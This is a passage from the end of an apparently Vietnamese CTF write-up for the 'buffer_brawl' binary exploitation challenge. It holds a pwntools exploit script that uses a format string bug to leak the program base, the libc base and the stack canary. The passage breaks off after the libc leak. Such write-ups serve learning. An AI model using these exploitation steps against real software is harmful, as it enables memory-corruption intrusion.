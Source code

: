 > ![{9E5567D7-3F69-4FE5-BBD3-AD6BC0B3209B}](https://hackmd.io/_uploads/B1afdc4sye.png)
> Vậy ta đã lấy được shell.

=> **Challenge hoàn thành**

## FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('buffer_brawl_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*menu+172
        b*slip+41
        b*slip+51
        b*stack_check_up+132

        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

#Leak address by using choice 4 exsist format string bug
sla(b'> ',b'4')
sla(b'left?\n',f'%13$p%29$p%17$p'.encode())
data =rl().split(b'0x')
exe_leak = int(data[1],16)
libc_leak = int(data[2],16)
can = int(data[3],16)

exe.address = exe_leak - 0x1747
info('Exe leak: ' + hex(exe_leak))
info('Exe base: ' + hex(exe.address))
libc.address = libc_leak - 0x28150
info('Libc leak: ' + hex(libc_leak))
```